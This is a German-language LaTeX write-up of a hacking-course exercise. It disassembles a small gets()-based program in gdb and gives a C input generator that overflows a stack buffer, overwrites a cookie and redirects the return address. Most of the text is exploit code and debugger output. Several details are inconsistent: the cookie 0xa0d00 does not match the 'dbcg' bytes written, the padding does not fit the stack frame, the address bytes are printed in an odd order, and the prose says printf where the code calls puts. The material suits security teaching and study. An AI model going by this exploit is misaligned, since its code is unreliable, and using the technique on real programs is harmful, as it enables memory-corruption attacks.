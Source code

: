 \documentclass[10pt,a4paper]{article}
\begin{document}
Mit gdb schauen wir uns daraufhin das Ergebnis des Compilierens an:
\begin{verbatim}
$ gdb b
GNU gdb (GDB) 7.6.2
Copyright (C)
[...]
Hacking/Blatt5/b...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040058d <+0>:	push   %rbp
   0x000000000040058e <+1>:	mov    %rsp,%rbp
   0x0000000000400591 <+4>:	sub    $0x70,%rsp
   0x0000000000400595 <+8>:	lea    -0x4(%rbp),%rdx
   0x0000000000400599 <+12>:	lea    -0x70(%rbp),%rax
   0x000000000040059d <+16>:	mov    %rax,%rsi
   0x00000000004005a0 <+19>:	mov    $0x400664,%edi
   0x00000000004005a5 <+24>:	mov    $0x0,%eax
   0x00000000004005aa <+29>:	callq  0x400460 <printf@plt>
   0x00000000004005af <+34>:	lea    -0x70(%rbp),%rax
   0x00000000004005b3 <+38>:	mov    %rax,%rdi
   0x00000000004005b6 <+41>:	callq  0x400490 <gets@plt>
   0x00000000004005bb <+46>:	mov    -0x4(%rbp),%eax
   0x00000000004005be <+49>:	cmp    $0xa0d00,%eax
   0x00000000004005c3 <+54>:	jne    0x4005cf <main+66>
   0x00000000004005c5 <+56>:	mov    $0x40067c,%edi
   0x00000000004005ca <+61>:	callq  0x400450 <puts@plt>
   0x00000000004005cf <+66>:	leaveq 
   0x00000000004005d0 <+67>:	retq   
End of assembler dump.
\end{verbatim}

Aus diesen Daten kann man lesen, dass bei Adresse 0x4005be die if-Abfrage umgesetzt wurde. Diese möchten wir mit unserer Eingabe umgehen und direkt zum printf("...") springen. Wir müssen also die Sprungadresse ersetzen durch 0x4005c5. Da diese Adresse nicht zu tippende Zeichen enthält schreiben wir uns ein Eingabe-Programm "`inputGen.c"', welches wir dann zusammen mit dem Programm "`b"' aufrufen:
\begin{verbatim}
./inputGen | ./b
\end{verbatim}

Input Gen compilieren wir mit:
\begin{verbatim}
gcc -o inputGen inputGen.c
\end{verbatim}

\begin{verbatim}
inputGen.c
---------------------------------
#include <stdio.h>

int main() {
   unsigned int i;
   //fill the char buffer
   for(i = 0; i < 108; i++){
      printf("a");
   }
   //print the cookie variable
   printf("dbcg");
   //print some unneeded data as offset to the jump adress
   for(i = 0; i < 39; i++){
      printf("%c", 0);
   }
   //print the correct adress for the jump
   printf("%c%c%c%c", (0x4005c5 & 0xFF000000) >> 24, 0x4005c5 & 0xFF,
            (0x4005c5 & 0xFF00) >> 8, (0x4005c5 & 0xFF0000) >> 16);

   return 0;
}
\end{verbatim}
\end{document}
